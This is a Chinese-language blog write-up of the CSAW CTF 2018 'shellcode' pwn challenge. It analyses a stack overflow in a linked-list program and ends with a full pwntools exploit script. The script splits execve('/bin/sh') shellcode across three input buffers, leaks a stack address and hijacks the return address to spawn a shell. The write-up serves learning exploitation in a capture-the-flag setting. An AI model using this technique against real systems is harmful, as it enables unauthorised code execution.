 <!--yml
category: 未分类
date: 2022-04-26 14:34:41
-->

# CSAWCTF-2018-pwn-shellcode 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/110350773](https://blog.csdn.net/A951860555/article/details/110350773)

## 知识点关键字

栈溢出，shellcode拆分+组装

## 样本

[shellcode样本下载](https://download.csdn.net/download/A951860555/13618669)
样本来自2018年CSAWCTF的pwn题目shellcode

## 运行

检查文件，发现有两个可以利用的点：
  栈溢出保护未开启；
  NX保护未开启，存在RWX段。

```
$ checksec CSAWCTF-2018-pwn
[*] '/home/fanxinli/pwnSample/CSAWCTF-2018/CSAWCTF-2018-pwn' 
    Arch:     amd64-64-little 
    RELRO:    Full RELRO 
    Stack:    No canary found 
    NX:       NX disabled 
    PIE:      PIE enabled 
    RWX:      Has RWX segments 
```

在linux下启动运行样本程序：
  从程序提示和运行结果可以看出，能够获取输入的地方分为三个节点段：node1、node2和initials部分；好像node.next为node1的下一个节点，且地址为node.next部分对应的输出，node.buffer处打印了node1节点的值。

```
$ ./CSAWCTF-2018-pwn
Linked lists are great! 
They let you chain pieces of data together. 

(15 bytes) Text for node 1: 
a 
(15 bytes) Text for node 2: 
b 
node1: 
node.next: 0x7ffc8306ec30 
node.buffer: a 

What are your initials? 
c 
Thanks c 
```

gdb调试：
  可以发现存在RWX段，且栈所在位置就是。
![RWX](img/d18428125ef821f0e7af03ad9266f153.png)

## 静态分析

main()
![main](img/672fd41f03cb20713cba60245dd4bdb6.png)

分析：
  一个puts函数打印内容，然后是nononode函数，没有明显的漏洞。

nononode() 和 readline()
![nononode](img/a8c036469c8d6f4cb0318877a288e72b.png)![readline](img/85d92fba859765e7a1cdfbcd6e2caa68.png)
分析：
  这里是主要功能的实现点，有v1、v2、v3、v4四个变量，v3是指针类型，指向v1，也就是说v3的值是v1的地址。
  nononode函数中使用了两次readline函数:
  在readline函数中，第一个函数getline的第一个参数为NULL，所以该函数会由操作系统分配一个最大的缓冲区，至少1024吧。所以这里有栈溢出，但由于开启了PIE保护，当程序运行到这里无法动态获得嵌入shellcode 的 地址，所以无法利用。在后面的分析中会看到程序会输出V1的地址，但当运行到这里时原来可以利用的地方内存又被覆盖过了。
  第二个函数strncpy很直接，复制将lineptr处a2长度的内容到a1位置的内存中，这里a2长度为15字节。
接下来看printNode函数。

printNode()
![printNode](img/b409e96e3123ee8cff62404a28fa933b.png)
分析：
  printNode接受main函数中v3的地址作为参数，a1 = v3；
  %p 打印 *v3，也就是打印v3的值，即里面存储的v1的地址；
  %s 打印 v3 + 1，v3 + 1指向v4的地址，也就是打印v4地址的字符串。

goodbye()
![goodbye](img/8423a4d11aa5c141b240e063242c5e42.png)

分析：
  fgets函数接受32bytes的输入，而s在rbp-3h的地方，此处存在栈溢出！

关键函数栈帧图示
![栈帧](img/ba9a60fcdd62511ff4d90b22ed8d54b6.png)

## 程序逻辑

  由于无法生成小于15字节的shellcode脚本来执行系统调用函数system("/bin/sh")，所以利用程序所给出的三个小节点分开存储shellcode然后链接起来运行，其中节点不连续需要使用跳转指令进行链接。

## 求解脚本

### 一些细节：

1、shellcode脚本本身需要注意“回车”和“空字符”的影响。
2、在本程序中使用了fgets和getline函数，会将结束符存入缓冲区，限制了输入长度，默认将最后一个字符替换为’\0’。
3、使用nop指令填充空白。
4、消除空白的影响：
  使用\x04\x00小技巧消除空字节影响；

```
opcode       asm  
04 00       add  al, 0x0 
```

5、将“/bin/sh"压到栈中时，最后一个字节是"\x00"，刚好作为读取字符串的停止符。

### wp_shellcode.py

```
from pwn import *

context(os="linux", arch="amd64", log_level="debug")
p = remote("127.0.0.1", "8888")

v1_sh_code = asm(

    """
    mov rbx, 0x68732f6e69622f
    nop
    """
)

v1_sh_code += b'\x04'

v2_sh_code = asm(
    """
    nop
    nop
    nop
    nop
    nop
    xor esi, esi
    add rsp, 0x28
    jmp rsp
    """
)

v4_sh_code = asm(
    """
    push rbx
    push rsp
    pop rdi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    """
)

p.recvuntil("node 1:  ")
p.sendline(v4_sh_code)
pause()

p.recvuntil("node 2: ")
p.sendline(v2_sh_code)
pause()

p.recvuntil("node.next: ")
v1_addr = int(p.recvuntil("\n", drop = True), base=16)
print("vi_addr: ", hex(v1_addr))
p.recv()
padding = b'a'*0x3 + b'b'*0x8
payload = padding + p64(v1_addr)+ v1_sh_code
p.send(payload)

p.interactive() 
```